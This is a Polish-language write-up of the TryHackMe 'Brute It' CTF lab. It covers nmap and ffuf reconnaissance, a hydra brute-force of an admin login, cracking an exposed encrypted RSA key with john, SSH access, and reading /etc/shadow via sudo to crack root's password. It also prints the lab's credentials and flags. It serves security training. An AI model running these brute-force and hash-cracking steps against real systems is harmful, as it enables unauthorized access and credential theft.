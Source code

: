 # Brute It
IP=10.10.70.121

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.70.121 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-08 06:07 EDT
Nmap scan report for 10.10.70.121
Host is up (0.093s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.61 seconds
```

Zostały wykryte dwa porty: 22 (SSH) i 80 (HTTP). SSH jest w wersji OpenSSH 7.6p1. Wersja Apache to 2.4.29. Dystrybucja Linuxa to Ubuntu.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80. Jest to domyślna strona Apache2. Przechodzimy do enumeracji za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.70.121/FUZZ -c
```

![FFUF](img/FFUF.JPG)

Po przejściu na podstronę "admin" znajdujemy panel logowania:

![LoginPage](img/LoginPage.JPG)

W źródle strony znajdujemy informację o nazwie użytkownika:

![Username](img/Username.JPG)

Przeprowadzamy atak brute-force za pomocą narzędzia hydra:

```
hydra 10.10.70.121 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid" \
-l admin -P /usr/share/wordlists/rockyou.txt
```

![Hydra](img/Hydra.JPG)

Znamy już dane potrzebne do logowania:

```
admin:xavier
```

Logujemy się do systemu znajdując pierwszą flagę

![Web](img/Web.JPG)

```
THM{brut3_f0rce_is_e4sy}
```

Na stronie widzimy klucz prywatny RSA użytkownika john:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----
```

## Eksploitacja

Zapisujemy klucz prywatny RSA do pliku i nadajemy mu uprawnienia:

![RSA](img/RSA.JPG)

Następnie zmieniamy format, aby był zrozumiały dla John'a:

![SSH2JOHN](img/SSH2JOHN.JPG)

Łamiemy hash'a:

```
john --wordlist=/usr/share/wordlists/rockyou.txt id.rsa.hash
```

![JOHN](img/JOHN.JPG)

Znając nazwę użytkownika (john), klucz prywatny RSA (id_rsa) i złamane hasło (rockinroll) próbujemy zalogować się do systemu za pomocą SSH:

![Error](img/Error.JPG)

Otrzymaliśmy błąd ze względu na zbyt duże uprawnienia klucza. Musimy zmienić uprawnienia komendą:

```
chmod 400 id_rsa
```

Ponownie logujemy się do systemu za pomocą SSH:

![SSH](img/SSH.JPG)

W katalogu domowym znajdujemy kolejną flagę w pliku user.txt:

![Flag1](img/Flag1.JPG)

```
THM{a_password_is_not_a_barrier}
```

## Zwiększenie poziomu uprawnień

Sprawdzamy, jakie komendy użytkownik john może wykonać jako root:

![Cat](img/Cat.JPG)

Odczytujemy plik "shadow" i zapisujemy zahashowane hasło root'a:

![Shadow](img/Shadow.JPG)

Następnie łamiemy hash'a:

![Root](img/Root.JPG)

Znając hasło użytkownika root logujemy się na jego konto:

![Proof](img/Proof.JPG)

Odczytujemy ostatnią flagę z pliku root.txt:

![Flag2](img/Flag2.JPG)

```
THM{pr1v1l3g3_3sc4l4t10n}
```

Do zobaczenia na kolejnych CTF-ach!
